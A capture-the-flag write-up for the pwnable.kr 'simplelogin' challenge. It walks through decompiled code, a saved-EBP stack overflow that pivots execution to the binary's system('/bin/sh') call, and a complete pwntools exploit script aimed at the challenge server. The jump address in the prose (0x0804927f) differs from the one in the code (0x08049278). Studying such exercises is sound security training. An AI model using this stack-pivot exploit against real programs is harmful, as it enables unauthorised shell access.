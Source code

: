 # Pwnable.kr simplelogin CTF Writeup

## Problem Description
The code for this challenge is:

### main
```c
0804930d  int32_t main()

0804932d      void var_32
0804932d      sub_80482e0(&var_32, 0, 0x1e)
08049352      _IO_setvbuf(_IO_stdout, 0, 2, 0)
08049377      _IO_setvbuf(_IO_stdin, 0, 1, 0)
08049383      _IO_printf("Authenticate : ")
0804938c      void* var_4c = &var_32
08049397      __isoc99_scanf("%30s")
080493b3      sub_80482e0(0x811eb40, 0, 0xc)
080493b8      char* var_38 = nullptr
080493cf      int32_t eax_2 = Base64Decode(&var_32, &var_38)
080493cf      
080493dd      if (eax_2 u> 0xc)
0804941a          _IO_puts("Wrong Length")
080493dd      else
080493f6          memcpy(&input, var_38, eax_2)
080493f6          
0804940a          if (auth(eax_2) == 1)
0804940c              correct()
0804940c              noreturn
0804940c      
08049425      return 0
```

### auth
```c
0804929c  int32_t auth(int32_t arg1)

080492ba      void var_c
080492ba      memcpy(&var_c, &input, arg1)
080492cd      void var_18
080492cd      void* eax_1 = calc_md5(&var_18, 0xc)
080492d8      void* var_28 = eax_1
080492e3      _IO_printf("hash : %s\n")
080492e3      
080492fd      if (sub_80482f0("f87cd601aa7fedca99018a8be88eda34", eax_1) != 0)
08049306          return 0
08049306      
080492ff      return 1
```

### correct
```c
0804925f  void correct() __noreturn

08049276      if (input == 0xdeadbeef)
0804927f          _IO_puts("Congratulation! you are good!")
0804928b          __libc_system("/bin/sh")
0804928b      
08049297      exit(nullptr)
08049297      noreturn
```

The program takes an input that is encoded with base64, copies it to a fixed memory address, decodes it, calculates its MD5 hash, compares it to a specific hash, and then checks if it equals `0xdeadbeef`. ASLR is enabled, but PIE is disabled, so the addresses of the program code do not change.

## Analysis
The `auth()` function starts like this:
```c
080492ba      void var_c
080492ba      memcpy(&var_c, &input, arg1)
```

When we disassemble the `auth()` function, we get this:
```asm
0804929c  int32_t auth(int32_t arg1)

0804929c  55                 push    ebp {__saved_ebp}
0804929d  89e5               mov     ebp, esp {__saved_ebp}
0804929f  83ec28             sub     esp, 0x28
080492a2  8b4508             mov     eax, dword [ebp+0x8 {arg1}]
080492a5  89442408           mov     dword [esp+0x8 {var_24}], eax
080492a9  c744240440eb1108   mov     dword [esp+0x4], input
080492b1  8d45ec             lea     eax, [ebp-0x14 {var_18}]
080492b4  83c00c             add     eax {var_c}, 0xc
080492b7  890424             mov     dword [esp {var_2c}], eax {var_c}
080492ba  e8a1030200         call    memcpy
```

We can see from these lines:
```asm
lea     eax, [ebp-0x14 {var_18}]
add     eax {var_c}, 0xc
```

That the buffer `var_c` (which will contain the input) is located at `[ebp-0x8]` (`-0x14 + 0xc = -0x8`). However, the maximum length we can give as input is 12 bytes. This means we can perform a buffer overflow on the stack.

The stack looks like this:
```
arg1
------------
return address
------------
saved ebp
------------
local variables
```

In our case, it will look like this:
```
ebp+0x8 -> arg1
------------
ebp+0x4 -> return address
------------
ebp     -> saved ebp
------------
ebp-0x8 -> input
```

Since we can only write 12 bytes, we can only overwrite the `saved ebp`. I thought about what I could do if I could override the `ebp`, and I came up with an idea. I can change the value of the `saved ebp` on the stack to the address of the buffer that holds the input (which is a fixed address). After that, I will write in the buffer 4 junk bytes and 4 bytes (`0x0804927f`) that are the address of these lines:
```c
0804927f          _IO_puts("Congratulation! you are good!")
0804928b          __libc_system("/bin/sh")
```

This is because when the program executes the `leave` instruction (when `auth()` ends), it does this:
```asm
mov esp, ebp
pop ebp
```

Then `ebp` will have the address we wrote. When returning to `main()`, the stack will be the buffer of the input. Since `auth()` returned 0, `main()` will exit just after returning from `auth()`, and it will execute the `leave; ret` instructions. The `leave` will pop the saved `ebp`, which is the first 4 bytes of the buffer. We don't need it for this exploit, so it will be a junk value. The `ret` instruction will do this:
```asm
pop eip
```

It will pop the next 4 bytes (the last 4 bytes of the buffer) and put them in `eip`. It will then jump to this address and run it. I put in the payload the address of `system("/bin/sh")`, so it should jump to it and run it. After that, we get a shell and can read the flag.

## Exploit Code
```python
from pwn import *
import base64

context.log_level = 'info'
context(os='linux', arch='i386')

session = ssh(user='simplelogin', host='pwnable.kr', port=2222, password='guest')
p = session.process(['nc', '0', '9003'])

payload = b"A" * 4  # EBP junk value
payload += p32(0x08049278)  # EIP address of system("/bin/sh")
payload += p32(0x0811eb40)  # Address of the buffer I write to
payload = base64.b64encode(payload)
print(payload)

p.sendline(payload)
p.interactive()
```
